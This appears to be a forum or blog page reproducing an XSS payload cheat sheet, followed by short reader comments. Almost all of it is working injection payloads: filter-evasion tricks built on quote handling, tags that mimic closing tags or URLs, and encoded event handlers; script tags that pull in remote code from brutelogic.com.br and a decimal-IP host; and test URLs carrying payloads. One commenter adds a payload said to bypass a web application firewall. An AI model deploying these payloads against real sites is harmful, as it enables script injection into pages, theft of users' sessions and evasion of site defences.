 5) Quotes

<x 1='1'onxxx=1
<x 1="1"onxxx=1

6) Mimetism

<x </onxxx=1 (mimics a closing tag)
<x 1=">" onxxx=1 (mimics a text outside of the tag)
<http://onxxx%3D1/ (mimics an URL)

7) Combo

<x%2F1=">%22OnXxx%3D1
Existing Code Reuse
<script>alert(1)//
<script>alert(1)<!–

1) Before injection:

<input type="text" value=""><script type="text/javascript"> function x(){ do something }</script>

2) After injection:

<input type="text" value=""><script>alert(1)//"><script type="text/javascript"> function x(){ do something }</script>
<script src=//brutelogic.com.br/1>
<script src=//3334957647/1>
http://brutelogic.com.br/webgun/test.php?p=<script src=//3334957647/1>
http://brutelogic.com.br/webgun/test.php?p=<brute id=test onmouseover=alert(1)>AAAA
http://brutelogic.com.br/webgun/test.php?p=<brute onmouseover=pop(1)>AAAA

XSS Payload Scheme

<tag handler=code>
<b onclick=alert(1)>click me!
<img src=x onerror=alert(1)>
<frameset><frame src onload=alert(1)>
extra1 <tag extra2 handler=code> extra3
extra1 <tag handler=code extra2> extra3
<svg/onload=alert(1)>
extra1 <tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3
extra1 <tag spacer1 handler spacer3 = spacer4 code spacer5 extra2> extra3 (without spacer2)
<table><thead%0Cstyle=font-size:700px%0Donmouseover%0A=%0Bconfirm(1)%09><td>AAAAAAAAA
Previous: Baseline Checklist && Security Hardening Specification (V1.1)Next article: Free download of electronic versions of many foreign books
10 replies
hades 2017-06-10 13:51:22
   Fortunately

0 Reply Ta
uber 2017-06-10 14:35:52
Xss
<script> $ a = 0; alert (123) </ script> that passed the previous version of cloud lock

0 Reply Ta
hades 2017-06-11 03:28:25
Welcome everyone to add relevant content
